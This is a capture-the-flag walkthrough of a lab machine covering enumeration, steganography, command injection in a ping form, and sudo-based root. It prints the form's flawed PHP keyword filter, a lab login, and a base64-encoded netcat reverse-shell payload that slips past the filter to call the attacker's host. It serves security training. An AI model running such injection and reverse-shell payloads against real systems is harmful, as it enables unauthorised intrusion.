## Nmap



We see only one port is open so that is what we are going to enumerate more

***

## HTTP



It's very simple and plain website. I started gobuster scan on it to see if we can find any hidden directory.



We can see that there is `/admin`. And if we open that page we see some images:



And in the comment I found a phassphrase



When I saw that it said `passphrase` and the webpage had some image file I knew it right away that in one of these files we'll find something hidden. So I tried all the images and found something in `haclabs.jpeg`(the one with spiderman on it)

I used the following command to extract the file from the image:
```bash
steghide --extract -sf haclabs.jpeg -p harder
```



And this gave me `imp.txt`. That file had a base64 encoded string which gave me a name of file called `superadmin.php`



When we open that page we see a utility that takes IP as an input and pings it. Now obviously we can test this input for `RCE`.
After some trial I was able to execute command using `|` i.e if we enter `127.0.0.1 | whoami` it will give us `www-data`.



Before I tried to get the reverse shell I tried to read the source of the `superadmin.php` to see what all command is restricted.

```
127.0.0.1 | cat superadmin.php
```



```php
?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>


</pre>
```
We can see that there are some commands that are not allowed at all. So we can use `nc.traditional` to get a reverse shell but the issue with that would be `nc` string would still be detected. So to bypass this I simply base64 encoded the following payload:

```bash
nc.traditional -e /bin/bash 192.168.1.125 4444
```

And then sent the following command in that IP box

```
127.0.0.1 | `echo "bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS4xMjUgNDQ0NAo=" | base64 -d`
```


***

## Privilege escalation

I ran my enumeration script but couldn't find anything in that. So I started to look around manually. In `/home/yash` I found `flag1.txt` which said that we need to find some hidden file.



I used the `find` command to find the hidden file.



and then found the password for `haclabs` account.



`haclabs:haclabs1234`

as we noticed that in `haclabs` there was a file named `.sudo_admin...` that means there are some sudo rights for `haclabs` so after I `su` to that account I ran `sudo -l` to see what he's allowed to run.



as we can see he can run `find` command as root. We can use [gtfo](https://github.com/mzfr/gtfo) to search gtfobins from terminal.



Now using the `sudo` trick we can get root shell.





***

That's it for now.

Thanks for reading, feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
